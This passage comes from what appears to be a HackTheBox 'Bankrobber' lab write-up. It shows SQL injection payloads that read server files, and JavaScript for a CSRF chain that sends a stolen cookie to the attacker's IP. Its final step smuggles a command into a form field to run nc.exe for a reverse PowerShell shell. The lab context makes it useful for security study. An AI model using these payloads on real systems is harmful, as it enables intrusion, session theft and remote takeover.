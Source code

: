 ```
term=1'UNION+SELECT+load_file('\\\\10.10.14.20\\\\0x4rt3mis'),2,3--+-
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2006:37:53.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2006:38:02.png)

We can get the source code of the other function with load_file function

```
term=1'UNION+SELECT+load_file('c:\\xampp\\htdocs\\admin\\backdoorchecker.php'),2,3--+-
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2006:41:58.png)

## CRSF

The thing we need to do, is make the admin execute commands comming from localhost on backdoorchecker.php

And we have RCE...

```js
// Function created to simplify the debbug, always send as param the value you want to debbug
function debug(debug){
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://10.10.14.20:9999/' + debug, true);
        xhr.send();
}


// Function just to try cmd id
function getRCE(){
        var rev = new XMLHttpRequest();
        var url = "http://localhost/admin/backdoorchecker.php";
        var data = 'cmd=dir|powershell -c "ping 10.10.14.20"';
        rev.open("POST", url, true);
        rev.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        rev.send(data);
        debug(document.cookie);
}

getRCE()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2007:23:18.png)

Now, we get reverse shell

```js
// Function created to simplify the debbug, always send as param the value you want to debbug
function debug(debug){
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://10.10.14.20:9999/' + debug, true);
        xhr.send();
}


// Function just to try cmd id
function getRCE(){
        var rev = new XMLHttpRequest();
        var url = "http://localhost/admin/backdoorchecker.php";
        var data = "cmd=dir|\\\\10.10.14.20\\0x4rt3mis\\nc.exe 10.10.14.20 5555 -e powershell.exe";
        rev.open("POST", url, true);
        rev.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        rev.send(data);
```